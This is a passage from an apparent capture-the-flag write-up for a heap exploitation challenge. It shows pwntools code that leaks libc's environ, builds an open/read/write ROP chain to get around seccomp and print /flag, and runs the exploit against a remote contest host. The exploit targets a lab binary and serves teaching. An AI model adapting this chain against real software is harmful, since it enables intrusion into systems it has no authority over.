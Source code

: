 ```py
        0xff, # sz
        libc.sym.environ # target
    ], filler = b"\x00"))

environ = leak_environ(1)
pwn.log.success(f"environ: {hex(environ)}")

stackframe_rewrite = environ - 0x150
pwn.log.success(f"stackframe_rewrite: {hex(stackframe_rewrite)}")
```

## ROPchain

Everything is ready for the ROPchain, we cannot use mprotect to use a shellcode within the seccomp forbids it. We just have to set the first entry to the stackframe we'd like to hiijack and that's it, then we just need call edit on this entry and the ROPchain is written and triggered at the return of the function!
```py
rop = pwn.ROP(libc, base=stackframe_rewrite)

# setup the write to the rewrite stackframe
edit(4, pwn.flat([
        # 1==
        0xff, # sz
        stackframe_rewrite # target
    ], filler = b"\x00"))

# ROPchain
rop(rax=pwn.constants.SYS_open, rdi=stackframe_rewrite + 0xde + 2, rsi=pwn.constants.O_RDONLY) # open
rop.call(rop.find_gadget(["syscall", "ret"]))
rop(rax=pwn.constants.SYS_read, rdi=3, rsi=heap_leak, rdx=0x100) # file descriptor bf ...
rop.call(rop.find_gadget(["syscall", "ret"]))

rop(rax=pwn.constants.SYS_write, rdi=1, rsi=heap_leak, rdx=0x100) # write
rop.call(rop.find_gadget(["syscall", "ret"]))
rop.exit(0x1337)
rop.raw(b"/flag\x00")

print(rop.dump())
print(hex(len(rop.chain()) - 8))

# write and trigger the ROPchain
edit(1, rop.chain())
```

## PROFIT

Finally:
```
nasm@off:~/Documents/pwn/greycat/writemeabook/dist$ python3 exploit.py REMOTE HOST=34.124.157.94 PORT=12346
[*] '/home/nasm/Documents/pwn/greycat/writemeabook/dist/chall'                                                                                                 
    Arch:     amd64-64-little  
    RELRO:    Partial RELRO
    Stack:    Canary found                                                                                                                 
    NX:       NX enabled
    PIE:      No PIE (0x3fd000)                                                                                                                      
    RUNPATH:  b'/home/nasm/Documents/pwn/greycat/writemeabook/dist'                                       
```